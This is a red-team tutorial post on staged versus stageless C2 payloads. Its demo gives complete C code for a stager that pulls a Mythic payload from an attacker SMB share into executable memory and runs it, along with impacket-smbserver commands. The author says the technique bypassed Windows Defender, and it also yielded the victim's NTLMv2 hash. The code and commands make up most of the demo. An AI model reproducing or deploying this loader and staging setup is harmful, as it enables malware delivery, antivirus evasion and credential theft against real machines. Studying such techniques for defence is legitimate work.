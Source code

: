 # Staging vs Stageless payloads - Which one is Better?

## Intro

In this documentation, we will explore the differences between staged and stageless payloads. In my recent video, I demonstrated how to use the **Mythic C2 framework** to successfully bypass **Windows Defender** — not through obfuscation or encryption, but purely by leveraging **payload staging over SMB**.

📺 **Watch the full video here**: https://youtu.be/CSt5wcvNjBU

Before diving deeper into this topic, make sure to join my [Discord](https://discord.gg/bgSpdheEgu) where we share experience, knowledge and doing CTFs together.

!!!
If you have further appreciation for my work, don't hesitate to become my [Patreon](https://www.patreon.com/Lsecqt)! This way, you help the Red Teaming Army grow, while getting access to private tools such as the ShadowBurn packer.
!!!

## What is a Stageless Payload?

A **stageless payload** is a single, self-contained binary or script that includes the entire functionality of the final payload at once. When executed, it immediately initiates a connection back to the C2 (Command and Control) server without requiring any additional downloads or secondary stages. 

**Characteristics:**
- Contains both the loader and full payload logic.
- Easier to detect by security tools due to its size and complexity.
- Useful when staging isn't possible (e.g., no or restricted network access).
- Requires more effort to obfuscate and hide in memory.


![[Pasted image 20250723185040.png]]

## What is a Staged Payload?

A **staged payload** breaks the delivery into two or more parts. The initial stage (the stager) is small and lightweight — its only job is to download or retrieve the second stage (the full payload) from a specified location (e.g., an SMB server, HTTP server, etc.).

**Characteristics:**
- Smaller initial binary, making it easier to deliver and evade defenses.
- The second stage can be dynamically fetched or built in memory.
- More modular and flexible for C2 communications.
- Detection can be bypassed by isolating or encrypting the second stage.


![[Pasted image 20250723185054.png]]

## Demo

This section contains the live demonstration and technical walkthrough of the technique. It includes code snippets, configurations, and output logs relevant to staging payloads over SMB using Mythic C2.

During the demo I used Mythic C2 (https://github.com/its-a-feature/Mythic) but the technique is applicable and recommended for any C2 framework.

The code was compiled from my Offensive CPP Repository:

* SMB Staging code: https://github.com/lsecqt/OffensiveCpp/blob/main/Staging%20Techniques/SMB_Stage.c

* Direct Pointer Shellcode Execution Blogpost: https://lsecqt.github.io/Red-Teaming-Army/malware-development/leveraging-the-direct-pointer-a-stealthy-maneuver-in-evasion-tactics/ 

During the video, I created the following code:

```C
#include <windows.h>
#include <stdio.h>

unsigned char buf[2120150] = "";

void readBin(const char* fileName) {
	FILE* file;
	DWORD file_length;

	HANDLE hFile = CreateFileA(fileName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hFile == NULL)
	{
		printf("Error opening file: %d\n", GetLastError());
		exit(-99);
	}

	BOOL rez = ReadFile(hFile, &buf, 2120150, NULL, NULL);
	if (rez == FALSE)
	{
		printf("Error reading file: %d\n", GetLastError());
		exit(-98);
	}
}

int main()
{
	LPVOID pAddr = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	readBin("\\\\192.168.0.185\\share\\apollo.bin");
	memcpy(pAddr, buf, sizeof(buf));
	((void(*)())pAddr)();

}
```

Here is important to note the size of `unsigned char buf[2120150]`. The `2120150` is the size of the payload generated from Mythic C2. If you do `ls -l` you can note the size of the file and this is the same size you need here.

Also, the size must be adjusted in here:

```C
BOOL rez = ReadFile(hFile, &buf, 2120150, NULL, NULL);
```

Usually I would go for dynamic memory allocation but the point was to showcase the staging.

---

Next we need to setup the server side. Since we are going to stage over SMB, `impacket-smbserver` can do the job perfect for us.

!!!
I will not go over setting up Mythic C2 as its already explained [!ref here](/Infrastructure/Setting%20up%20Mythic%20C2/Setting%20up%20Mythic%20C2.md)
!!!

To launch the SMB server we can do:

```bash
impacket-smbserver <sharename> <sharepath> -ts -debug -smb2support
```

In our case I am using the CWD (Current Working Directory):

```bash
impacket-smbserver share . -ts -debug -smb2support
```

!!!
`<sharename>` must be the same as the one specific here:
`readBin("\\\\192.168.0.185\\share\\apollo.bin");`
!!!

![[Pasted image 20250723185230.png]]

![[Pasted image 20250723185241.png]]

C2 Callback came immediate while Defender was turned on.

![[Pasted image 20250723185255.png]]

![[Pasted image 20250723185304.png]]

Additionally, we also received the NTLMv2 hash of the user because of the SMB communication.

![[Pasted image 20250723185420.png]]

!!!
This is demonstration only for staging technique. Even though it bypassed Defender do no think it is enough. Malware development is a combination of techniques!
!!!
